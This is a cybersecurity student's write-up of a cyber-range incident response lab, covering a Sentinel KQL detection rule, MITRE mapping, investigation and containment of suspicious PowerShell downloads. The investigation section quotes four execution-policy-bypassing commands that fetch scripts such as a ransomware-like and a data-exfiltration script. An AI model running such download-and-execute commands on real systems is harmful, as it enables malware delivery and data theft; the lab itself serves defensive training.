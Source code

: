 ## 🔐 Incident Response Lab: PowerShell Suspicious Web Request

**Author**: Jason Nguyen  
**Date**: 19 June 2025

**Tools, Technologies & Frameworks Used**:
- Microsoft Sentinel
- Microsoft Defender for Endpoint (MDE)
- Azure Log Analytics Workspace (LAW)
- Azure Virtual Machine (windows-target-1)
- KQL (Kusto Query Language)
- MITRE ATT&CK
- GitHub (Markdown Reporting)
- NIST 800-61 Framework

---

### 📘 Summary

This incident response exercise simulates detection and investigation of a suspicious PowerShell command used to download multiple scripts from the internet using `Invoke-WebRequest`. Such activity often indicates post-exploitation behavior by attackers, such as downloading malware or establishing persistence. I built a custom detection rule in Microsoft Sentinel, triggered an incident, and walked through the response lifecycle using real-world techniques aligned with [NIST 800-61](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final).

---

### 🧠 Objectives

* Detect potentially malicious PowerShell web requests using KQL.
* Investigate the source and impact of script downloads on a target VM.
* Simulate response and containment actions in MDE.
* Document incident handling steps aligned to NIST 800-61.

---

### 🔎 Detection Logic (KQL)

```kql
let TargetHostname = "windows-target-1"; 
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
````

This query looks for instances of PowerShell (`powershell.exe`) being used to run `Invoke-WebRequest`, indicating an attempt to download content from an external server.

---

### ⚙️ Alert Rule Configuration

* **Rule Name**: PowerShell Suspicious Web Request
* **Trigger Type**: Scheduled Analytics Rule
* **Query Schedule**: Every 4 hours
* **Lookback Period**: Last 14 days
* **Alert Threshold**: Greater than 0
* **Entity Mappings**:

  * Account → Name → `AccountName`
  * Host → HostName → `DeviceName`
  * Process → CommandLine → `ProcessCommandLine`
* **MITRE ATT\&CK Mapping**:

  * T1059.001 – PowerShell
  * T1203 – Exploitation for Client Execution
  * T1071.001 – Web Protocols
  * T1105 – Ingress Tool Transfer
  * T1041 – Exfiltration Over C2 Channel
* **Event Grouping**: All events grouped into a single alert
* **Incident Settings**: Enabled
* **Suppression**: Suppress alerts for 24 hours after trigger
* **Auto-Incident Creation**: Enabled

![entity-mapping](images/entity-mapping.png)

---

### 🚨 Incident Investigation

**Triggered Incident**:
“J - PowerShell Suspicious Web Request”
**Device**: `windows-target-1`
**User Involved**: One user

During the incident, four separate PowerShell commands were used to download suspicious scripts:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../portscan.ps1 -OutFile C:\programdata\portscan.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../eicar.ps1 -OutFile C:\programdata\eicar.ps1
```

Upon contacting the user, they stated they were trying to install free software but only saw a black screen. Suspicion arose regarding possible social engineering or misuse of legitimate tools.

**Script Execution Verification**:
Used this query to confirm whether the downloaded scripts were executed:

```kql
let TargetHostname = "windows-target-1"; 
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); 
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

⚠️ **Result**: All four scripts were executed on the target system.

![scripts-executed](images/scripts-found.png)

---

### 🛡️ Response & Containment

* The machine was **isolated** via Microsoft Defender for Endpoint.
* A **full antivirus scan** was performed and returned clean.
* After validation, the machine was **removed from isolation** and restored to standard operation.

---

### 📋 Post-Incident Activities

* The user completed an **immediate cybersecurity awareness training** session.
* Organization upgraded the **KnowBe4 security awareness training** and increased frequency of mandatory sessions for all staff.
* **New PowerShell usage policy** drafted — restricting execution to essential personnel only.
* Posted a comment on Incident Acitivty Log in Sentinel, and closed the incident.

![incident-acitivty-log](images/sentinel-incident-activity-log.png)

---

### 🧩 Challenges & Takeaways

* KQL query initially returned no results — needed to expand `TimeGenerated` to 30 days.
* Learned the distinction between `InitiatingProcessCommandLine` (parent) vs. `ProcessCommandLine` (child).
* Practiced careful IR documentation, user communication, and validated execution of potential payloads.
* Reinforced understanding of PowerShell abuse in post-exploitation stages.

---

### ✅ Skills Demonstrated

* Threat detection using KQL in Log Analytics
* Incident triage and response in Microsoft Sentinel
* Endpoint investigation and validation using MDE
* NIST 800-61 incident handling lifecycle
* Practical understanding of PowerShell abuse techniques

---

## 📎 Notes

* This lab was completed as part of Josh Madakor’s Cyber Range series.
* Incident response actions simulated in a controlled learning environment.
* All files and URLs used were part of safe, educational scenarios for cybersecurity training.
* For my lab notes, [Read PowerShell Suspicious Web Request Lab Notes →](powershell-web-request-lab-notes.md)
